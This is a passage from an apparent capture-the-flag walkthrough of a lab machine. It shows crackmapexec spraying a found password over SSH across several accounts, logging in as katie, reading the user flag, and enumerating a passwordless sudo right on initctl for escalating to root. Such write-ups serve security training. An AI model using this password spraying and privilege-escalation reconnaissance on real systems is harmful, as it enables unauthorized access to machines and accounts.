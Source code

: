 
    oxdf@parrot$ crackmapexec ssh 10.10.10.229 -u users -p 'SummerHereWeCome!!' --continue-on-success
    SSH         10.10.10.229    22     10.10.10.229     [*] SSH-2.0-OpenSSH_8.1
    SSH         10.10.10.229    22     10.10.10.229     [-] chronos:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
    SSH         10.10.10.229    22     10.10.10.229     [+] katie:SummerHereWeCome!! 
    SSH         10.10.10.229    22     10.10.10.229     [-] nginx:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']
    SSH         10.10.10.229    22     10.10.10.229     [-] root:SummerHereWeCome!! Bad authentication type; allowed types: ['publickey', 'keyboard-interactive']



It worked for katie!

#### Shell

I can connect as katie over SSH:



    oxdf@parrot$ sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
    katie@spectra ~ $



And I can get `user.txt`:



    katie@spectra ~ $ cat user.txt
    e89d27fe************************



## Shell as root

### Enumeration

katie has `sudo` rights on `initctl`:



    katie@spectra ~ $ sudo -l
    User katie may run the following commands on spectra:
        (ALL) SETENV: NOPASSWD: /sbin/initctl



`initctl` "allows a system administrator to communicate and interact
with the Upstart init(8) daemon." More on that in a minute.

katie is also a member of the `developers` group:



    katie@spectra ~ $ id    
    uid=20142(katie) gid=20142(katie) groups=20142(katie),20143(developers)



That provides access to a handful of files that were previously
unaccessible:
